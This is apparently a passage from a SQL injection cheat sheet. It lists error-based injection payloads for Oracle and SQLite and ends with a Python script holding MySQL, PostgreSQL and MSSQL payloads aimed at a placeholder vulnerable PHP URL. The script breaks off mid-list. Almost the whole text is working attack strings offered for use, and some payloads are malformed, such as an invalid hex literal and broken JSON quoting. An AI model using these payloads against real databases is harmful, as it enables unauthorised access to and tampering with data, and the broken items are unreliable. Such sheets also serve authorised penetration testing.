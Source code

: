 ### Oracle

#### Invalid Data Manipulation

Oracle’s specific functions and data manipulation can cause errors.
```sql
' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual --
```

#### Invalid XMLType Usage

Use XMLType improperly to cause errors.
```sql
' UNION SELECT XMLType('<invalid><xml>') FROM dual --
```

#### Using SYS.DBMS_ASSERT

Leverage Oracle’s assertion package to force errors.
```sql
' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual --
```

### SQLite

#### Invalid String Functions

SQLite’s string functions can generate errors when used improperly.
```sql
' UNION SELECT SUBSTR('text', -1, 1) --
```

#### Invalid

 Mathematical Operations

Use mathematical functions with invalid inputs.
```sql
' UNION SELECT POW('text', 2) --
```

#### Invalid Date Functions

Use date functions with incorrect parameters.
```sql
' UNION SELECT DATE('invalid_date') --
```

## Python Script to Force Errors

**Automating Error Injection**

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- ",
    "' AND 0xG1 -- ",
    "' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- ",
    # PostgreSQL
    "' AND 'a' ~ 'b[' -- ",
    "' AND jsonb_path_query_first('{'a':1}', '$.a') -- ",
    "' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- ",
    # MSSQL
    "; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') -- ",
    "; SELECT CAST('text' AS INT) -- ",
```